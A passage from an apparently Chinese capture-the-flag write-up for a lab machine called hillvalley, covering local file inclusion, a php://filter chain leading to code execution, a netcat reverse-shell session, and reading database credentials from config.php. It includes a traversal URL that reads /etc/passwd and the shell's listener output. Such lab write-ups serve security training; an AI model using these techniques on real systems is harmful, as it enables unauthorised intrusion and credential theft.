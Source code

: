 破解得到密码为`andromeda`。

# 三、初始访问 (Initial Access)

## 3.1 漏洞组合获取Webshell

尝试使用`marty:andromeda`通过SSH登录，但因服务器配置为公钥认证而失败。

回到Web应用，使用破解的凭据`marty:andromeda`成功登录后台。登录后发现URL结构为`http://hillvalley.thl/admin.php?page=about.php`，这极有可能存在本地文件包含（LFI）漏洞。

尝试读取`/etc/passwd`文件：

```
http://hillvalley.thl/admin.php?page=../../../../etc/passwd
```

页面成功回显了文件内容，证实了LFI漏洞的存在。接下来，利用`php://filter`配合`php_filter_chain_generator`工具生成payload，绕过限制执行PHP代码。

> **知识点补充**: `php://filter`是PHP中一个强大的封装协议，它允许在读取文件时对其内容进行过滤和处理。`php_filter_chain_generator`工具可以生成一系列复杂的`iconv`编码转换链，利用特定PHP版本中的bug，最终导致任意代码执行。
>
> **工具链接**:https://github.com/synacktiv/php_filter_chain_generator

成功生成反弹shell的payload并执行，在本地Kali上使用`nc`监听，获得了`www-data`用户的shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/php_filter_chain_generator]
└─$ nc -lvnp 8888                 
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.142] 45106
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 四、权限提升 (Privilege Escalation)

## 4.1 横向移动：www-data -> marty

在`www-data`的shell中，查看Web目录下的`config.php`文件，发现了数据库的硬编码凭据。

```bash
www-data@hillvalley:/var/www/project/app$ cat config.php 
<?php
$host = "localhost";
$user = "marty";
$pass = "t1m3travel";
$db = "hillvalley";
...
?>
```

发现用户`marty`的另一个密码`t1m3travel`。使用此密码成功从`www-data`切换到`marty`用户。
